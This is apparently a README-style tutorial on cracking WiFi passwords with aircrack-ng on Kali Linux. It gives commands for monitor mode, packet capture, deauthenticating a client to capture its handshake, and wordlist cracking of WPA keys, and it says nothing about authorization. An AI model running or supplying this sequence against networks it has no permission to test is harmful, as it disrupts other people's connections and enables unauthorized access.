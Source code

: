 <h3>WiFi Hacking - Aircrack-ng</h3>

OS = Kali Linux Live Everything > You may download it from https://kali.org<br>
Tools - aircrack-ng<br>
<br>
Hardwares - Atheros 9721 or ALFA Model AWUS036NH<br>
OR You may boot Kali Linux Live Everything by making a bootable USB using "RUFUS" and use your own laptop's network adapter <b>(Important! It should support "Monitor Mode" otherwise it will not work)<b><br>
<br>
Tool	Purpose	Example Command<br>
<br>
airmon-ng<br>
[Enable monitor mode] >>> sudo airmon-ng start wlan0<br>
<br>
airodump-ng<br>
[Capture network traffic] >>> sudo airodump-ng -c 6 wlan0mon<br>
<br>
aireplay-ng<br>
[Inject/deauth packets] >>> sudo aireplay-ng -0 1 ...<br>
<br>
aircrack-ng<br>
[Crack WPA/WEP keys] >>> sudo aircrack-ng -w wordlist.lst ...<br>
<br>
<br>
Kali Linux Commands:<br>
<br>
1. ifconfig to check network interfaces<br>
2. iwconfig to check wireless interfaces<br>
 By default the wireless interface is in MANAGED MODE. <br>
3. airmon-ng stop wlan0 (STOP - if the interface is wlan0)<br>
4. airmon-ng start wlan0 (START - It will be gone into monitoring mode)<br>
5. airodump-ng wlan0 or wlan0mon<br>
6. airodump-ng --bssid <b>BSSID</b> --channel <b>CHANNEL</b> -w <b>ESSID</b> wlan0 (or if its wlan0mon)<br>
7. Open another terminal or terminal tab and then enter the following command<br>
8. aireplay-ng --deauth 10 -a <BSSID> -c <CLIENT_MAC> wlan0mon<br>
   Or wait for someone to join the network. <br>
9. aircrack-ng -w /path/to/wordlist.txt -b <BSSID> capture-01.cap<br>
